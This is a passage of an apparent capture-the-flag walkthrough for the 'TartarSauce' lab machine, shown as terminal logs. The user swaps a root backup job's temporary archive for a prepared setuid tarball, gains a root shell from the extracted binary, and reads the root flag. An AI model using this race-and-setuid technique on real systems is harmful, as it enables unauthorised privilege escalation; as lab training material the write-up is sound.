Tue 2018-11-06 02:18:45 EST  3h 32min left Mon 2018-11-05 02:18:45 EST  20h ago      systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
Tue 2018-11-06 06:53:56 EST  8h left       Mon 2018-11-05 06:29:37 EST  16h ago      apt-daily-upgrade.timer      apt-daily-upgrade.service
Tue 2018-11-06 12:09:16 EST  13h left      Mon 2018-11-05 18:02:07 EST  4h 43min ago apt-daily.timer              apt-daily.service

4 timers listed.
Pass --all to see loaded but inactive timers, too.
onuma@TartarSauce:/var/tmp$
```

```sh
onuma@TartarSauce:/var/tmp$ ls -lah
total 12M
drwxrwxrwt  8 root  root  4.0K Nov  5 23:00 .
drwxr-xr-x 14 root  root  4.0K Feb  9  2018 ..
-rw-r--r--  1 onuma onuma  11M Nov  5 23:00 .62e7e15d8e7f2761b9d317d93a1fcb2ab5a982af
-rw-r--r--  1 onuma onuma 2.7K Nov  5 22:26 setuid.tar.gz
drwx------  3 root  root  4.0K Nov  5 02:03 systemd-private-2e5dc4027a6e4729b9b8aa40bf5faf30-systemd-timesyncd.service-IbGFZm
drwx------  3 root  root  4.0K Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4.0K Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
onuma@TartarSauce:/var/tmp$
onuma@TartarSauce:/var/tmp$ cp setuid.tar.gz .62e7e15d8e7f2761b9d317d93a1fcb2ab5a982af
onuma@TartarSauce:/var/tmp$
onuma@TartarSauce:/var/tmp$ systemctl list-timers
WARNING: terminal is not fully functional
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES
Mon 2018-11-05 23:00:07 EST  15s ago       Mon 2018-11-05 23:00:07 EST  14s ago      backuperer.timer             backuperer.service
Tue 2018-11-06 02:18:45 EST  3h 18min left Mon 2018-11-05 02:18:45 EST  20h ago      systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
Tue 2018-11-06 06:53:56 EST  7h left       Mon 2018-11-05 06:29:37 EST  16h ago      apt-daily-upgrade.timer      apt-daily-upgrade.service
Tue 2018-11-06 12:09:16 EST  13h left      Mon 2018-11-05 18:02:07 EST  4h 58min ago apt-daily.timer              apt-daily.service

4 timers listed.
Pass --all to see loaded but inactive timers, too.
onuma@TartarSauce:/var/tmp$
onuma@TartarSauce:/var/tmp$ ls -lah
total 40K
drwxrwxrwt  8 root  root  4.0K Nov  5 23:00 .
drwxr-xr-x 14 root  root  4.0K Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2.7K Nov  5 23:00 .62e7e15d8e7f2761b9d317d93a1fcb2ab5a982af
-rw-r--r--  1 onuma onuma 2.7K Nov  5 22:26 setuid.tar.gz
drwx------  3 root  root  4.0K Nov  5 02:03 systemd-private-2e5dc4027a6e4729b9b8aa40bf5faf30-systemd-timesyncd.service-IbGFZm
drwx------  3 root  root  4.0K Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4.0K Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
onuma@TartarSauce:/var/tmp$
```

```sh
onuma@TartarSauce:/var/tmp$ ls -lah
total 44K
drwxrwxrwt  9 root  root  4.0K Nov  5 23:00 .
drwxr-xr-x 14 root  root  4.0K Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2.7K Nov  5 23:00 .62e7e15d8e7f2761b9d317d93a1fcb2ab5a982af
drwxr-xr-x  3 root  root  4.0K Nov  5 23:00 check
-rw-r--r--  1 onuma onuma 2.7K Nov  5 22:26 setuid.tar.gz
drwx------  3 root  root  4.0K Nov  5 02:03 systemd-private-2e5dc4027a6e4729b9b8aa40bf5faf30-systemd-timesyncd.service-IbGFZm
drwx------  3 root  root  4.0K Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4.0K Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root  4.0K Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER
onuma@TartarSauce:/var/tmp$
onuma@TartarSauce:/var/tmp$ cd check/
onuma@TartarSauce:/var/tmp/check$ ls -lah
total 12K
drwxr-xr-x 3 root root 4.0K Nov  5 23:00 .
drwxrwxrwt 9 root root 4.0K Nov  5 23:00 ..
drwxr-xr-x 3 root root 4.0K Nov  5 22:24 var
onuma@TartarSauce:/var/tmp/check$ cd var/www/html/
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -lah
total 24K
drwxr-xr-x 2 root root 4.0K Nov  5 22:25 .
drwxr-xr-x 3 root root 4.0K Nov  5 22:24 ..
-r-sr-sr-x 1 root root  16K Nov  5 22:25 suid
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./suid
# id
uid=0(root) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
# cd /root
# ls -lah
total 816K
drwx------  4 root root  4.0K May  2  2018 .
drwxr-xr-x 22 root root  4.0K May  1  2018 ..
lrwxrwxrwx  1 root onuma    9 Mar  8  2018 .bash_history -> /dev/null
drwx------  2 root root  4.0K Feb 17  2018 .cache
-rw-------  1 root root  1.4K May  2  2018 .mysql_history
drwxr-xr-x  2 root root  4.0K Feb 21  2018 .nano
-rw-r--r--  1 root root   170 Feb 21  2018 .wget-hsts
-r--------  1 root root    33 Feb  9  2018 root.txt
-rw-r--r--  1 root root  276K Feb 21  2018 sys.sql
-rw-r--r--  1 root root  510K Feb 21  2018 wp.sql
# cat root.txt
e79abdab8b8a4b64f8579a10b2cd09f9
#
```